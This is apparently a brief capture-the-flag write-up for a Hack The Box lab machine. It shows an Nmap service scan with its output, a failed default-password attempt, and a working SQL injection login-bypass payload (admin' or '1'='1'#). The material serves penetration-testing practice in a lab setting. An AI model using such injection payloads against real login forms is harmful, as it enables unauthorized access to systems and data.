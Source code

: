 ## Reconnaissance

Kicking off with a simple Nmap scan...

__Nmap Scan__
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/three]
└─$ sudo nmap -sC -sV -oN nmap.txt 10.129.92.59
Nmap scan report for 10.129.92.59
Host is up (0.017s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 17 19:49:07 2022 -- 1 IP address (1 host up) scanned in 18.30 seconds
```


On visiting the web-site I see a login. I tried common passwords (admmin:admin, admin:password, etc) but it didn't work.

So, I guess, I'll have to use some kind of injection technique to bypass the login page.

Firstly, i tried SQL Injection and it gave me an `SQL` error, so I was pretty sure that the authentication form is vulnerable to SQL injection. So I tried various SQL paylaods to bypass theh authentication page and the one that finally worked was
```
username: admin' or '1'='1'#
password: <anything>
```

Once, you're logged in, you get the flag to complete the exercise.
